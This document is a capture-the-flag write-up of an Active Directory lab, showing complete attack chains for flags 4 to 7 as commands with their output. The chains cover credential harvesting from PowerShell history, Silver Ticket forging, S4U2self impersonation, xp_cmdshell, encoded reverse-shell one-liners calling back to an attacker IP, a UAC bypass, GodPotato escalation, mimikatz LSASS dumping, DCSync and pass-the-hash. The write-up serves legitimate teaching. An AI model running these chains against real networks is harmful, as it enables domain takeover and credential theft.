PS C:\Users\wei.jie.tan\Desktop> cat flag3.txt
RV{lA7ERAl_m0vemenT_I5_a1SO_cOoL_3c69d6d47771c7d7671a5bf3c058e326}
Flag 4: Historical Scar

After obtaining access to sql01.antennae.rv, as wei.jie.tan, we can find the path to the user’s PowerShell history file by running the following command.
PS C:\Users\wei.jie.tan\Desktop> (Get-PSReadlineOption).HistorySavePath
C:\Users\wei.jie.tan\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
This file will contain a history of all the PowerShell commands that wei.jie.tan has executed. By examining this file, we can find the credentials of svc_sql:
PS C:\Users\wei.jie.tan\Desktop> cat (Get-PSReadlineOption).HistorySavePath
whoami
cd c:\SQL
sqlcmd -S localhost -Q "SELECT @@VERSION" -b
RV{AUd!T1ng_pS_CAn_8e_d@N6eROUs_e29abbb4bda372844a294da95c0c9218}
sqlcmd -S localhost -U "svc_sql" -P "P@ssw0rd_f0r_SQL-antennae" -Q "SELECT @@VERSION;"
sqlcmd -S localhost -U "svc_sql" -P "P@ssw0rd_f0r_SQL-antennae" -Q "EXEC sp_helpdb;"
Get-Content (Get-PSReadlineOption).HistorySavePath
exit
cd Desktop
ls
cat flag3.txt
cat (Get-PSReadlineOption).HistorySavePath
(Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath
Additionally, we can also find the 4th flag in this file.
Flag 5: Silver

This flag was (as intended) found to be the most challenging, with only 3 participants solving it during the meetup. There are also a few different ways to solve this challenge, and we’ll be covering all of them here.
Path 1: Silver Ticket
Earlier, we found that the svc_sql user possess the following SPN: MSSQLSvc/sql01.antennae.rv. This means that the user provisions the MSSQL service on sql01.antennae.rv.
For the sake of demonstration, we can connect to the MSSQL service on sql01.antennae.rv using any domain user - for example chloe.lim:
~$ nxc mssql sql01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH'
MSSQL 10.5.10.11 1433 SQL01 [*] Windows Server 2022 Build 20348 (name:SQL01) (domain:antennae.rv)
MSSQL 10.5.10.11 1433 SQL01 [+] antennae.rv\chloe.lim:BZCJsopuOPgH
We can also use mssqlclient.py from Impacket to connect to the MSSQL service:
~$ mssqlclient.py 'chloe.lim':'BZCJsopuOPgH'@sql01.antennae.rv -windows-auth
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (antennae\chloe.lim guest@master)>
The following parts will do an unnecessarily deep-dive into Kerberos, if you’re already familiar with it or simply don’t care, feel free to skip ahead to #forging-tickets
Understanding Kerberos
This portion is going to be a mini-deep-dive into how Kerberos works, since I realized that of the 3 participants who solved this challenge, none of them actually understood how it worked. Additionally, this knowledge is useful for understanding Kerberos in general, and can be applied to other scenarios as well.
Earlier we demonstrated connecting to the MSSQL service using chloe.lim’s credentials. By default, NTLM authentication is used. This can be seen from the source code of mssqlclient.py:
See NTLMSSP_CHALLENGE for more details on the
NTLMSSP_CHALLENGEstructure. Additionally, I heavily recommend that you read this blog post to have a fundamental understanding of Kerberos.
# https://github.com/fortra/impacket/blob/master/impacket/tds.py#L993
def login(self, database, username, password='', domain='', hashes = None, useWindowsAuth = False):
[...snip...]
if useWindowsAuth is True:
login['OptionFlags2'] |= TDS_INTEGRATED_SECURITY_ON
auth = ntlm.getNTLMSSPType1('', '', use_ntlmv2=True, version=self.version)
login['SSPI'] = auth.getData()
if useWindowsAuth is True:
# Each TDS packet has a header so we extract the NTLMSSP_CHALLENGE from it
serverChallenge = tds['Data'][3:]
# https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/801a4681-8809-4be9-ab0d-61dcfe762786
However, we can force the use of the Kerberos authentication protocol instead of NTLM by providing the -k flag to mssqlclient.py:
~$ mssqlclient.py 'antennae.rv'/'chloe.lim':'BZCJsopuOPgH'@SQL01.antennae.rv -k
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (antennae\chloe.lim guest@master)>
While performing this authentication, we can inspect the network traffic and find the corresponding TGS-REQ and TGS-REP packets. These are part of the TGS exchange in the Kerberos protocol, where the client (us!) requests for a service ticket to access a specific service (in this case, the MSSQL service on sql01.antennae.rv).

In the TGS-REQ packet, we find that we are requesting a service ticket for the MSSQLSvc/sql01.antennae.rv SPN:

For a detailed explanation on the
sname-stringstructure, and how it is parsed into theMSSQLSvc/sql01.antennae.rvSPN, please refer to our public preview which navigates the RFC 4120, Section 5.4.1 -KDC-REQandKDC-REQ-BODYstructures.
As you’d expect, the TGS-REP packet contains the encrypted service ticket that we requested:

As per RFC 4120, Section 5.3, the ticket structure returned in the KDC-REP message is defined as follows:
Ticket ::= [APPLICATION 1] SEQUENCE {
tkt-vno [0] INTEGER (5),
realm [1] Realm,
sname [2] PrincipalName,
enc-part [3] EncryptedData -- EncTicketPart
}
Where the enc-part contains an EncryptedData structure, given by RFC 4120, Appendix A - ASN.1:
EncryptedData ::= SEQUENCE {
etype [0] Int32 -- EncryptionType --,
kvno [1] UInt32 OPTIONAL,
cipher [2] OCTET STRING -- ciphertext
}
The cipher field contains the actual information about the authenticating client, encrypted with the service account’s password - in this case, that service account is svc_sql. This encrypted portion of the ticket contains information about the client (us!), in a proprietary format known as the MS-PAC structure.
Since this part is encrypted with the service account’s password, the user cannot tamper with it! This is the base of the security of the
Kerberosprotocol, where services “trust” theKDCto issue valid tickets.
The MS-PAC (referred to as PAC from hereon) structure contains a lot of information about the client that the service will simply trust, and use to authorize the client. You can think of this structure as a glorified JWT token.
Fetching the PAC
Since we have the credentials of svc_sql, we can decrypt the ticket->enc-part->cipher field, and extract the PAC structure. This can be done using Impacket, which conveniently exposes an interface to parse a MS-PAC structure in pac.py.
try:
cipherText = decodedTicket['ticket']['enc-part']['cipher']
newCipher = _enctype_table[int(etype)]
plainText = newCipher.decrypt(key, 2, cipherText)
[...snip...]
encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]
sessionKey = Key(encTicketPart['key']['keytype'], bytes(encTicketPart['key']['keyvalue']))
adIfRelevant = decoder.decode(encTicketPart['authorization-data'][0]['ad-data'], asn1Spec=AD_IF_RELEVANT())[0]
# parsing every PAC
parsed_pac = parse_pac(pacType, args)
logging.info("%-30s:" % "Decoding credential[%d]['ticket']['enc-part']" % cred_number)
# One section per PAC
for element_type in parsed_pac:
element_type_name = list(element_type.keys())[0]
logging.info(" %-28s" % element_type_name)
# ... do stuff with the pac info...
describeTicket.py uses this interface to decrypt the ticket->enc-part->cipher field, and parse the PAC structure given the service account’s NTLM hash. Firstly, we can convert the plaintext password of svc_sql to its corresponding NTLM hash easily with some python:
~$ python3
Python 3.13.5 (main, Jun 25 2025, 18:55:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> import binascii
>>> pw = "P@ssw0rd_f0r_SQL-antennae"
>>> binascii.hexlify(hashlib.new('md4', pw.encode('utf-16le')).digest()).decode()
'dafede3a0d35ddb28147bd418e4cd53b'
We can verify that this is indeed the correct NTLM hash by using it to authenticate to the domain controller using pass-the-hash:
~$ nxc ldap dc01.antennae.rv -u 'svc_sql' -H 'dafede3a0d35ddb28147bd418e4cd53b'
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\svc_sql:dafede3a0d35ddb28147bd418e4cd53b
Next, we can request for a service ticket for the MSSQLSvc/sql01.antennae.rv SPN using kvno like we did in #roasting-the-hard-way.
~$ echo 'BZCJsopuOPgH' | kinit 'chloe.lim'@ANTENNAE.RV
Password for chloe.lim@ANTENNAE.RV:
~$ kvno 'MSSQLSvc/sql01.antennae.rv'
MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV: kvno = 2
~$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV
Valid starting Expires Service principal
09/07/2025 11:19:28 09/07/2025 21:19:28 krbtgt/ANTENNAE.RV@ANTENNAE.RV
renew until 09/08/2025 11:19:28
09/07/2025 11:19:38 09/07/2025 21:19:28 MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV
renew until 09/08/2025 11:19:28
All Kerberos tickets are stored in
/tmp/krb5cc_$(id -u)by default.
We can now proceed with decrypting the service ticket, and parsing the PAC structure using describeTicket.py:
~$ describeTicket.py /tmp/krb5cc_1000 --rc4 'dafede3a0d35ddb28147bd418e4cd53b'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[*] Number of credentials in cache: 2
[...snip...]
[*] LoginInfo
[...snip...]
[*] Account Name : chloe.lim
[*] Groups (decoded) : (513) Domain Users
[*] User Flags : (32) LOGON_EXTRA_SIDS
[*] User Session Key : 00000000000000000000000000000000
[*] Logon Server : DC01
[*] Logon Domain Name : antennae
[*] Logon Domain SID : S-1-5-21-1843653573-2831615454-1469364877
[*] User Account Control : (16) USER_NORMAL_ACCOUNT
[*] Extra SID Count : 1
[*] Extra SIDs : S-1-18-1 Authentication authority asserted identity (SE_GROUP_MANDATORY, SE_GROUP_ENABLED_BY_DEFAULT, SE_GROUP_ENABLED)
[*] Resource Group Domain SID :
[*] Resource Group Count : 0
[*] Resource Group Ids :
[*] LMKey : 0000000000000000
[*] SubAuthStatus : 0
[*] Reserved3 : 0
For brevity, I’ve snipped out all of the other PAC sections, except for the PAC_LOGON_INFO structure which contains: the credential information for the client of the Kerberos ticket..
Forging Tickets
Since we have the credentials of svc_sql, we were able to decrypt a service ticket issued to chloe.lim and parse the PAC structure. With this knowledge, we can reverse the process and artificially forge a PAC structure for any user we want, encrypt it with svc_sql’s password, and create a valid service ticket for that user. This is known as a Silver Ticket Attack.
With this forged ticket, we can access the MSSQL service on sql01.antennae.rv as any user we want - including privileged users, like Administrator. We can forge this ticket using ticketer.py. The following information is required to forge a ticket, most of which can be grabbed from BloodHound:
-spn: The SPN of the service we want to access. In this case, it’sMSSQLSvc/sql01.antennae.rv.-domain: The domain name, which isantennae.rv.-domain-sid: The domain SID, which can be found inBloodHoundor by runningwhoami /useron any domain-joined machine. In this case, it’sS-1-5-21-1843653573-2831615454-1469364877.-nthash: TheNTLMhash of the service account, which we have already computed to bedafede3a0d35ddb28147bd418e4cd53b.
With this information, we can forge a ticket for the Administrator user:
~$ ticketer.py -spn 'MSSQLSvc/sql01.antennae.rv' -domain 'antennae.rv' -domain-sid 'S-1-5-21-1843653573-2831615454-1469364877' -nthash 'dafede3a0d35ddb28147bd418e4cd53b' Administrator
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for antennae.rv/Administrator
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in Administrator.ccache
We can now use this forged ticket to authenticate to the MSSQL service on sql01.antennae.rv as Administrator:
~$ export KRB5CCNAME=Administrator.ccache
~$ mssqlclient.py -k -no-pass sql01.antennae.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (ANTENNAE.RV\Administrator dbo@master)>
If we decrypt the ticket using describeTicket.py, and inspect the PAC - we’ll find that the PAC_LOGON_INFO structure now contains information about the Administrator user:
~$ describeTicket.py Administrator.ccache --rc4 'dafede3a0d35ddb28147bd418e4cd53b'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[*] Number of credentials in cache: 1
[...snip...]
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name : MSSQLSvc/sql01.antennae.rv
[*] Service Realm : ANTENNAE.RV
[*] Encryption type : rc4_hmac (etype 23)
[*] Decoding credential[0]['ticket']['enc-part']:
[*] LoginInfo
[...snip...]
[*] Account Name : Administrator
[*] Logon Count : 500
[*] Bad Password Count : 0
[*] User RID : 500
[*] Group RID : 513
[*] Group Count : 5
[*] Groups : 513, 512, 520, 518, 519
[*] Groups (decoded) : (513) Domain Users
[*] (512) Domain Admins
[*] (520) Group Policy Creator Owners
[*] (518) Schema Admins
[*] (519) Enterprise Admins
[*] User Flags : (0)
[*] User Session Key : 00000000000000000000000000000000
[*] Logon Server :
[*] Logon Domain Name : ANTENNAE.RV
[*] Logon Domain SID : S-1-5-21-1843653573-2831615454-1469364877
[*] User Account Control : (528) USER_NORMAL_ACCOUNT, USER_DONT_EXPIRE_PASSWORD
[*] Extra SID Count : 0
[*] Extra SIDs :
[*] Resource Group Domain SID :
[*] Resource Group Count : 0
[*] Resource Group Ids :
[*] LMKey : 0000000000000000
[*] SubAuthStatus : 0
[*] Reserved3 : 0
Accessing MSSQL as Administrator
As we demonstrated earlier, we can now access the MSSQL service on sql01.antennae.rv as Administrator. From here, we can enable the xp_cmdshell stored procedure, which allows us to execute arbitrary commands on the underlying operating system.
This is disabled by default for security reasons, but since we are
Administrator, we can enable it.
SQL (ANTENNAE.RV\Administrator dbo@master)> EXEC sp_configure 'show advanced options', 1;
INFO(SQL01): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (ANTENNAE.RV\Administrator dbo@master)> RECONFIGURE;
SQL (ANTENNAE.RV\Administrator dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
INFO(SQL01): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (ANTENNAE.RV\Administrator dbo@master)> RECONFIGURE;
Now, we can use the stored procedure to execute commands on sql01.antennae.rv as svc_sql:
SQL (ANTENNAE.RV\Administrator dbo@master)> xp_cmdshell whoami
output
----------------
antennae\svc_sql
NULL
Local Privilege Escalation
From this, we can obtain a reverse shell on sql01.antennae.rv using a powershell one-liner obtained from revshells.com:
SQL (ANTENNAE.RV\Administrator dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8[....snip....]uAEMAbABvAHMAZQAoACkA
This reverse shell points to our attacking machine, on port 8443:
~$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 59996
PS C:\Windows\system32> whoami
antennae\svc_sql
PS C:\Windows\system32>
Local service accounts typically have some level of elevated privileges on the machine, this is often a requirement to provision services. In this case, we’ll see that the svc_sql has the SeImpersonatePrivilege privilege:
PS C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
The SeImpersonatePrivilege privilege is a well-documented local privilege escalation vector, and can be exploited with various Potato variants. In this case, we can use GodPotato to obtain a reverse shell as NT AUTHORITY\SYSTEM:
PS C:\windows\tasks> .\GodPotato.exe -cmd "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYg[....snip....AEMAbABvAHMAZQAoACkA"
Similar to before, this reverse shell points to our attacking machine, on port 9443:
~$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 60010
PS C:\windows\tasks> whoami
nt authority\system
And finally, we can grab the flag5.txt file:
PS C:\Windows\Tasks> cat C:\Users\Administrator\Desktop\flag5.txt
RV{s1LVeR_tICk3Ts_aRe_oFteN_0V3Rl0oK3d_fOR_PRIv!13ge_3ScALaTION_:)_87b96b7fefeaa679845950e6042e2a8c}
Path 2: S4u2self
An alternative to forging an arbitrary service ticket is to use the S4u2self extension of the Kerberos protocol. This extension allows a service to obtain a service ticket to itself on behalf of a user..
This allows the svc_sql user to request for a service ticket to the MSSQLSvc/sql01.antennae.rv SPN on behalf of any user in the domain - including privileged users like Administrator. This is possible because svc_sql has the MSSQLSvc/sql01.antennae.rv SPN registered to it.
S4u2self Extension
We can use getST.py to request for a service ticket to the MSSQLSvc/sql01.antennae.rv SPN on behalf of Administrator:
~$ getST.py -self -altservice 'MSSQLSvc/sql01.antennae.rv' -impersonate 'Administrator' 'antennae.rv'/'svc_sql':'P@ssw0rd_f0r_SQL-antennae'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Changing service from svc_sql@ANTENNAE.RV to MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV
[*] Saving ticket in Administrator@MSSQLSvc_sql01.antennae.rv@ANTENNAE.RV.ccache
Accessing MSSQL as Administrator
As we did before, we can use this s4u ticket to authenticate to the MSSQL service on sql01.antennae.rv as Administrator:
~$ export KRB5CCNAME='Administrator@MSSQLSvc_sql01.antennae.rv@ANTENNAE.RV.ccache'
~$ mssqlclient.py -k -no-pass sql01.antennae.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (antennae\Administrator dbo@master)>
From here, we can follow the same steps as before to enable xp_cmdshell, obtain a reverse shell as svc_sql, and finally escalate to NT AUTHORITY\SYSTEM using GodPotato.
Path 3: RunAs
Another, cleaner, alternative is to simply spawn a process as the svc_sql user from the existing local session we have as wei.jie.tan. This can be done RunasCs, a C# implementation of the runas command that supports passing in plaintext passwords.
PS C:\windows\tasks> .\RunasCs.exe 'svc_sql' P@ssw0rd_f0r_SQL-antennae powershell.exe -d antennae.rv -r 198.51.100.5:8443
[*] Warning: The logon for user 'svc_sql' is limited. Use the flag combination --bypass-uac and --logon-type '5' to obtain a more privileged token.
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-9138862$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 4424 created in background.
UAC Bypass via computerdefaults.exe
However, you may find that the obtained reverse shell is limited by User Account Control (UAC) and as a result - lacks the SeImpersonatePrivilege privilege:
PS C:\Windows\system32> whoami /all
whoami /all
USER INFORMATION
----------------
User Name SID
================ ==============================================
antennae\svc_sql S-1-5-21-1843653573-2831615454-1469364877-1110
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
========================================== ================ ============================================== ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE Well-known group S-1-5-4 Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON Well-known group S-1-2-1 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
antennae\service-accounts Group S-1-5-21-1843653573-2831615454-1469364877-1125 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label S-1-16-8192
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== ========
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
USER CLAIMS INFORMATION
-----------------------
User claims unknown.
This can be simply bypassed with any of the UAC bypass methods, for example using computerdefaults.exe. Where C:\Windows\Tasks\revshell.exe is a reverse shell generated with msfvenom.
C:\Windows\system32> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "C:\Windows\Tasks\revshell.exe" /f && start computerdefaults.exe
From here, we can follow the same steps as before to obtain a reverse shell as svc_sql, and finally escalate to NT AUTHORITY\SYSTEM using GodPotato.
~$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 60583
PS C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
Path 4: Adding svc_sql to senior-developers
This was a path that we were aware of during the competition, but was explicitly forbidden in the rules as it may be disruptive to other players. Anyway, this path is quite straightforward - simply using jolene.ong to add svc_sql to the senior-developers group, which can SSH into sql01.antennae.rv:
~$ bloodyAD --host 'dc01.antennae.rv' -u 'jolene.ong' -p 'BoXALrqvqPd3' add groupMember 'senior-developers' 'svc_sql'
[+] svc_sql added to senior-developers
We can then SSH into sql01.antennae.rv as svc_sql:
~$ sshpass -p 'P@ssw0rd_f0r_SQL-antennae' ssh 'svc_sql'@sql01.antennae.rv
PS C:\Users\svc_sql> whoami
antennae\svc_sql
Similar to before, we can do the SeImpersonatePrivilege exploit with GodPotato to escalate to NT AUTHORITY\SYSTEM.
Flag 6: Antennae

Finally, with local SYSTEM access on sql01.antennae.rv - we can obtain credentials from logged on users by dumping the LSASS process. This allows us to steal NTLM hashes of users that have previously logged into the machine.
Dumping LSASS
We can do this with sekurlsa::logonpasswords from mimikatz.exe, and find the NTLM hash of kai.wen.goh.
C:\windows\tasks>.\mimikatz.exe "sekurlsa::logonpasswords" "exit"
.#####. mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # sekurlsa::logonpasswords
Authentication Id : 0 ; 153166753 (00000000:092123a1)
Session : Batch from 0
User Name : kai.wen.goh
Domain : antennae
Logon Server : DC01
Logon Time : 9/8/2025 12:41:46 AM
SID : S-1-5-21-1843653573-2831615454-1469364877-1122
msv :
[00000003] Primary
* Username : kai.wen.goh
* Domain : antennae
* NTLM : 56e7e432c955bfdbb8f57d1248417116
* SHA1 : f0d0a4ae3f6aeac2d677f1c6675c757453b18c37
* DPAPI : 81ce964944648399d64c9f933d25fc62
tspkg :
wdigest :
* Username : kai.wen.goh
* Domain : antennae
* Password : (null)
kerberos :
* Username : kai.wen.goh
* Domain : ANTENNAE.RV
* Password : (null)
ssp :
credman :
cloudap :
We can verify that these credentials are valid for the domain with nxc:
~$ nxc ldap dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116'
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
On BloodHound, we find that the kai.wen.goh user is a member of the Domain Admins group - which is a member of the Administrators group on dc01.antennae.rv.

DCSync Attack
The Domain Admins group has full administrative access to the entire domain, and this includes performing Domain Replication - this technique can be extended to replicate domain credentials, also known as a DCSync attack. We can perform this attack using nxc to obtain the NTLM hash of the Administrator user:
~$ nxc smb dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116' --ntds --user 'Administrator'
SMB 10.5.10.10 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB 10.5.10.10 445 DC01 [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
SMB 10.5.10.10 445 DC01 [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB 10.5.10.10 445 DC01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:4b1b716bb4ad29c4efaf682577361070:::
We can verify that these credentials are valid for the domain with nxc:
~$ nxc ldap dc01.antennae.rv -u 'Administrator' -H '4b1b716bb4ad29c4efaf682577361070'
LDAP 10.5.10.10 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert)
LDAP 10.5.10.10 389 DC01 [+] antennae.rv\Administrator:4b1b716bb4ad29c4efaf682577361070 (Pwn3d!)
Lastly, we can use evil-winrm to authenticate to dc01.antennae.rv as Administrator and grab the flag6.txt file:
~$ evil-winrm -i dc01.antennae.rv -u 'Administrator' -H '4b1b716bb4ad29c4efaf682577361070'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\flag6.txt
RV{aNd_The_Pil1@r$_st@rt_dROpp!nG_170fee6a4def44375b5c5ecbc0b87efe}
Flag 7: Privilege (De)escalation?

This challenge, sadly, only had one solve. This flag is the first challenge in the backward.rv forest, which has a bidirectional trust with the compromised antennae.rv forest.
A bidirectional trust established between two Active Directory forests allows users in either forest to access resources in the other forest, provided they have the necessary permissions. This often means that a user from one forest can be granted access to resources in the other forest, and vice versa. In this case, a user in antennae.rv can potentially access resources in backward.rv, and vice versa.
Cross-Forest Enumeration
In order to faciliate the use of BloodHound to ingest data from both forests, we need to re-run bloodhound-ce-python against the backward.rv forest:
~$ bloodhound-ce-python -u 'jolene.ong@antennae.rv' -p 'BoXALrqvqPd3' -d 'backward.rv' -c 'All' -ns '10.5.10.12' --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: backward.rv
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc02.backward.rv
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc02.backward.rv
INFO: Found 20 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SRV01.backward.rv
INFO: Querying computer: DC02.backward.rv
INFO: Done in 00M 03S
INFO: Compressing output into 20250907125945_bloodhound.zip
After ingesting this data into BloodHound, we can now see the backward.rv forest in the BloodHound interface.

Finding Foreign Group Memberships
We can enumerate for foreign group memberships using the Queries tab in BloodHound. This is a built-in query, labelled as: Principals with foreign domain group membership. We’ll find that natasha.lim@antennae.rv is a member of the Maintainers group in backward.rv.

Additionally, we’ll find that the Maintainers group has GenericAll permissions on the Sysadmins group in backward.rv.

DCSyncing natasha.lim
As we did before with the Administrator@antennae.rv user, we can perform a DCSync attack to obtain the NTLM hash of the natasha.lim user:
~$ nxc smb dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116' --ntds --user 'natasha.lim'
SMB 10.5.10.10 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
